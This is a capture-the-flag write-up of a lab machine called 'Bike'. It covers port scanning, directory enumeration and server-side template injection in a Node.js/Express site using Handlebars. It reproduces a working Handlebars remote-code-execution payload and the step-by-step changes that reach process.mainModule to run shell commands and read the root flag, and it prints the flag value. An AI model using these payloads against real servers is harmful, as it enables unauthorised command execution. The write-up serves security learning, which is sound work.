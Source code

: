 # MACHINE - BIKE

IP : 10.129.236.251

Type: Linux

---

## OPEN PORTS

[1] 22/tcp ssh **OpenSSH 8.2p1**
[2] 80/tcp http **Node.js** (*Express* middleware)

- No further informations obtained using `-sC`

---

## OPENING THE SITE

- Nothing strange in the source code
- No cookies being set
- No strange requests by submitting an email
- Running directory enumeration

```
$ gobuster dir -u http://10.129.239.64/ -w /usr/share/wordlist/dirb/common.txt
```

- Found the following directories

1. css
2. images
3. js

- Connection refused for some requests
- When trying to put the email and click on submit the email is shown back to the user
- This can lead to possible attack vectors for XSS (Cross-Site Scripting)
- We already know that the site uses:

1. Node.js as programming language
2. Express as both Web Framework and Web Servers

- Trying with classical `<script>alert(1)</script>` -> Not working
- We must use another vulnerability
- Node.js and Python backend serverse make use of a *Template Engine*
- Template Engine are usually prone to [*Server-Side Template Injection*](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

> Server-Side Template Injection is a vulnerability where the attacker injects
> malicious input into a template in order to execute commands on the server

- In this case the template is when the input email is returned in the page

---

## SERVER-SIDE TEMPLATE INJECTION

- According to HackTricks

> To detect SSTI, initially, fuzzing the template is a straightforward approach. This
> involves injecting a sequence of special characters (`${{<%[%'"}}%\`) into the 
> template and analyzing the differences in the server's response to regular data
> versus this special payload. A possible vulnerability is found if the template
> tries to evaluate template expressions like: `{{7*7}}` or `${7*7}`

- Injecting `{{7*7}}` into the form throws an error page
- Identified the used Template Engine to be: *Handlebars*
- The server run from the folder `/root/Backend`

- According to this [post](https://blog.shoebpatel.com/2021/01/23/The-Secret-Parameter-LFR-and-Potential-RCE-in-NodeJS-Apps/)

> If you are using ExpressJs + Handlebars for Server Side Rendering, you are likely
> vulnerable to *Local File Read* (LFR) and potential *Remote Code Execution* (RCE).

- Read also this [post](https://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html)

- In HackTricks we can find the following payload for RCE

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

- We can try to sent this payload
- First we need to encode it
- We can use BurpSuite to intercept the traffic, Encode the payload and then send it
- Once it has been sent we obtain an error in the response

```
Error: require is not defined
```

- That's because we cannot directly access `require`
- Template Engines are often Sandboxed, it is very hard to load modules
- However there are some variables that are defined *Global*, accessible by all
- In NodeJS there is one of particular interesting, named *process*

> *process*  provides information about, and control over, the current Node.js process

- Just modify the previous payload with

```
{{this.push "return process;"}}
```

- Sent the payload we obtain an actual HTML page with this information in the template

```
We will contact you at:       e
2
[object Object]
function Function() { [native code] }
2
[object Object]
[object process]
```

- Looking at the documentation we can see that there is a MainModule property
- It is deprecated but not inaccessible
- Modify the payload with

```
{{this.push "return process.mainModule;"}}
```

- We can go on
- Just use this payload now

```
{{this.push "return process.mainModule.require('child_process')\
	.execSync('cat /root/flag.txt')"}}
```

---

## FLAG

ROOT: 6b258d726d287462d60c103d0142a81c
